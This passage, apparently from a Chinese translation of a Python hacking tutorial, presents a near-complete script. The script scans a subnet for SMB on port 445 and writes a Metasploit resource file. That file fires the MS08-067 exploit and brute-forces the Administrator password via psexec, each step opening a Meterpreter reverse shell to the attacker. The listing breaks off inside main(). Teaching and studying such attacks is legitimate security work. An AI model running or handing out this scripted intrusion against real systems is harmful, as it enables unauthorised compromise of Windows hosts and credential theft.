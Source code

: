 尝试把所有的功能放在一起，我们的脚本现在已经具备扫描目标，利用`ms08-067_netapi`漏洞，暴力破解 SMB 用户名密码并远程执行程序的能力了。最后，我们增加一些选项给脚本的`main()`函数把以前写的函数整合包装在一起调用。完整的代码如下。

```py
# coding=UTF-8

import os
import optparse
import sys
import nmap

def findTgts(subNet):
    nmScan = nmap.PortScanner()
    nmScan.scan(subNet, '445')
    tgtHosts = []
    for host in nmScan.all_hosts():
        if nmScan[host].has_tcp(445):
            state = nmScan[host]['tcp'][445]['state']
            if state == 'open':
                print '[+] Found Target Host: ' + host
                tgtHosts.append(host)
    return tgtHosts
def setupHandler(configFile, lhost, lport):
    configFile.write('use exploit/multi/handler\n')
    configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')
    configFile.write('set LPORT ' + str(lport) + '\n')
    configFile.write('set LHOST ' + lhost + '\n')
    configFile.write('exploit -j -z\n')
    configFile.write('setg DisablePayloadHandler 1\n')
def confickerExploit(configFile, tgtHost, lhost, lport):
    configFile.write('use exploit/windows/smb/ms08_067_netapi\n')
    configFile.write('set RHOST ' + str(tgtHost) + '\n')
    configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')
    configFile.write('set LPORT ' + str(lport) + '\n')
    configFile.write('set LHOST ' + lhost + '\n')
    configFile.write('exploit -j -z\n')
def smbBrute(configFile, tgtHost, passwdFile, lhost, lport):
    username = 'Administrator'
    pF = open(passwdFile, 'r')
    for password in pF.readlines():
        password = password.strip('\n').strip('\r')
        configFile.write('use exploit/windows/smb/psexec\n')
        configFile.write('set SMBUser ' + str(username) + '\n')
        configFile.write('set SMBPass ' + str(password) + '\n')
        configFile.write('set RHOST ' + str(tgtHost) + '\n')
        configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')
        configFile.write('set LPORT ' + str(lport) + '\n')
        configFile.write('set LHOST ' + lhost + '\n')
        configFile.write('exploit -j -z\n')

def main():
    configFile = open('meta.rc', 'w')
    parser = optparse.OptionParser('[-] Usage%prog -H &lt;RHOST[s]&gt; -l &lt;LHOST&gt; [-p &lt;LPORT&gt; -F &lt;Password File&gt;]')
    parser.add_option('-H', dest='tgtHost', type='string', help='specify the target address[es]')
    parser.add_option('-p', dest='lport', type='string', help='specify the listen port')
    parser.add_option('-l', dest='lhost', type='string', help='specify the listen address')
    parser.add_option('-F', dest='passwdFile', type='string', help='password file for SMB brute force attempt')
    (options, args) = parser.parse_args()
    if (options.tgtHost == None) | (options.lhost == None):
        print parser.usage
        exit(0)
    lhost = options.lhost
```